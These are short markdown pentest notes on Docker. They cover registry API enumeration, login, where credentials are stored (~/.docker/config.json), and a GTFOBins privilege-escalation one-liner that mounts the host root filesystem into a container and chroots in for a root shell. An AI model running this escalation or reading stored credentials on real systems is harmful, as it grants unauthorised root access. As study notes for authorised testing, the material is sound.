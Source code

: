Docker

## Registry API

- in general in /v2/

- List repository : /v2/_catalog

- see docs.docker.com/registry/spec/api


## Login on docker

- install docker

- ```docker login <url>```

- if it needs certificate : ```mkdir -p /etc/docker/certs.d/url```, copy it inside, and login

## Password storing 

- ~/.docker/config.json or /root/.docker/config.json

## Run the container

- ```docker run -it url/<repository-image> sh```

## Privilege escalation

- Your user is in the docker group ? gtfobins docker :
- ```docker images```
- ```docker run -v /:/mnt --rm -it <image found> chroot /mnt sh```






